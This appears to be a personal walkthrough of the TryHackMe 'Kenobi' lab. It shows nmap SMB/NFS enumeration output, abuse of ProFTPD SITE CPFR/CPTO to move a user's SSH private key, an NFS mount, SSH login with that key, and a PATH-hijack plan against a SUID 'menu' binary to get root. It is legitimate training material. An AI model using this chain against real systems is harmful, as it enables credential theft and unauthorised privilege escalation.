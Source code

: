 #samba #smb #searchsploit #scp #tryhackme 


**General steps:**
```
Enumerate: Checkout services, check open samba shares, check existing ssh users, check ftp services, check points of mounting, check for exploit for the services versions.

Exploit: Use the ftp exploit to move the ssh id key of the kenobi user into a mountable and writeable folder.

PrivEsc: We have the ssh login of kenobi, now we need to privesc. Find a odd file with SUID bit, check how it works and what commands it runs. Exploit that it does not use absolute paths when calling curl, make our own "curl file" which get execute insted and opens a root shell.
```



```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.79.202
```

```
└─$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.79.202
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 06:53 EST
Nmap scan report for 10.10.79.202
Host is up (0.044s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.79.202\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.79.202\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.79.202\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```


**enumerate rpcbind**
```
└─$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.79.202
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 07:03 EST
Nmap scan report for 10.10.79.202
Host is up (0.051s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *

```

- We can mount to /var directory. 

**Check for exploits on the ftp service**
![[Pasted image 20250208130606.png]]

![[Pasted image 20250208131554.png]]



- We found the location of the kenobi secret key from the samba log, and we move it to a folder we can mount to remotely and have write permissions to. 
- The commands we use SITE CPFR, SITE CPTO 


![[Pasted image 20250208131112.png]]
- OPS, did not mean to call the fill ip_rsa 


- Q: do we need to mount from /mnt ? 
```
sudo mount 10.10.79.202:/var /mnt/kenobiNFS
```

- Here we get the id_rsa, private key for kenobi ssh login, which we moved to /var earlier 
- Then we can use it to access the ssh server:
```
ssh -i id_rsa kenobi@10.10.79.202
```


- we browse some files, and find a file we want to download. We can do this with scp from our local machine:
```
scp -i id_rsa kenobi@10.10.79.202:/home/kenobi/user.txt .
```

- We got the user.txt, now lets get root.


**PrivEsc:**



- Start by checking commands which has the SUID-bit:
```
kenobi@kenobi:~$ find / -type f -perm -04000 -ls 2>/dev/null
   279750     96 -rwsr-xr-x   1 root     root        94240 May  8  2019 /sbin/mount.nfs
   277766     16 -rwsr-xr-x   1 root     root        14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   276573     44 -rwsr-xr--   1 root     messagebus    42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   277903    100 -rwsr-sr-x   1 root     root          98440 Jan 29  2019 /usr/lib/snapd/snap-confine
   260788     12 -rwsr-xr-x   1 root     root          10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   276950    420 -rwsr-xr-x   1 root     root         428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
   275955     40 -rwsr-xr-x   1 root     root          38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   260462     52 -rwsr-xr-x   1 root     root          49584 May 16  2017 /usr/bin/chfn
   275975     36 -rwsr-xr-x   1 root     root          32944 May 16  2017 /usr/bin/newgidmap
   277767     24 -rwsr-xr-x   1 root     root          23376 Jan 15  2019 /usr/bin/pkexec
   260602     56 -rwsr-xr-x   1 root     root          54256 May 16  2017 /usr/bin/passwd
   275974     36 -rwsr-xr-x   1 root     root          32944 May 16  2017 /usr/bin/newuidmap
   260525     76 -rwsr-xr-x   1 root     root          75304 May 16  2017 /usr/bin/gpasswd
   280011     12 -rwsr-xr-x   1 root     root           8880 Sep  4  2019 /usr/bin/menu
   260686    136 -rwsr-xr-x   1 root     root         136808 Jul  4  2017 /usr/bin/sudo
   260464     40 -rwsr-xr-x   1 root     root          40432 May 16  2017 /usr/bin/chsh
   277159     52 -rwsr-sr-x   1 daemon   daemon        51464 Jan 14  2016 /usr/bin/at
   260591     40 -rwsr-xr-x   1 root     root          39904 May 16  2017 /usr/bin/newgrp
   260206     28 -rwsr-xr-x   1 root     root          27608 May 16  2018 /bin/umount
   276584     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
   260157     40 -rwsr-xr-x   1 root     root          40152 May 16  2018 /bin/mount
   260171     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
   260188     40 -rwsr-xr-x   1 root     root          40128 May 16  2017 /bin/su
   260172     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
```


CLEANER way to view the SUID bit file:

```
find / -perm -u=s -type f 2>/dev/null
```

- A file which look off is the /usr/bin/menu file, we try to run it:
![[Pasted image 20250208135613.png]]

- Investegating the binary with string, we can see:
![[Pasted image 20250208140047.png]]
- It do not uses absolute paths for the commands curl or uname (not using /usr/bin/curl). 
- So we can make our own file named curl, which contain a shell, and the menu binary will run this instead of the actual curl command. 
![[Pasted image 20250208140428.png]]

